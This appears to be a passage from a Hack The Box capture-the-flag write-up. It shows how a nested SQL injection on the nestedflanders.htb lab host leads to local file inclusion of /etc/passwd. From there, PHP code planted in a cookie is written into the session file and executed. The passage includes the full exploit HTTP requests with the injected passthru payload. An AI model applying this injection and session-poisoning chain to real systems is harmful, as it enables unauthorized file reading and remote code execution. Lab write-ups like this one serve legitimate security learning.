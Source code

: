 ![](/img/hax/htb/lfi_etcpasswd.png)


### Local File Inclusion to Remote Code Execution

Since this LFI is exploited in the context of an `include()` call, we need a way to get our own php code into a system file. Our session file at `var/lib/php/session/sess_[SESSION COOKIE]` can be used to perform this. The session cookie value can be found in any HTTP request:
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/etc/passwd%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
Since any cookies we add are appended to the session file, we can create our own arbitrary cookie that contains php code. Then we use the LFI to point to our session file to obtain remote code execution:

```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('whoami')?>;
...

```
Response
```
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Mon, 27 Mar 2023 21:52:42 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 957
Connection: close
```
